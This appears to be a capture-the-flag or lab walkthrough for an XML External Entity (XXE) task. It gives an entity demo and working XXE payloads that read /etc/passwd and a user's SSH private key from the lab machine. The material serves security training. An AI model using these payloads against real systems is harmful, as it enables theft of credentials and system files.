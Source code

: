 # Day 4
## XML External Entitiy

The first two task are only about understanding the text. If you cannot grasp the answer just read again carefully.
All answers are in the description if you didn't already know.
(except the last subtask of task 15 but it's easy to figure out if you have answered the previous two or you can just look it up online)

Just try these two simple payload on the box to grasp the general idea of how it works by yourself
+ first
```html
<!DOCTYPE replace [<!ENTITY name "Foe"> ]>
 <userInfo>
  <firstName>Light</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

If you need to display your own name in the first one just change it accordingly (That one will output "Light Foe")


+ second one
```xml
 <?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```


This one is the same, it'll be the same as cat /etc/passwd there is only one non-root non-service non-deamon at the las line.

The next one could get hard but lucky us they stored ssh keys in the standard way. They are usually stored in the home directory into a commonly known directory (I cannot explicit the answer
due to thm's policy) just google it and replace the path accordingly (username with what you know).

For the last answer just use the second payload to retrieve the key

```xml
 <?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///path_to_ssh_key'>]>
<root>&read;</root>
```

and you'll get the key, just trim it and here we go.

Now let's wait for the realese of the next day :hugs:

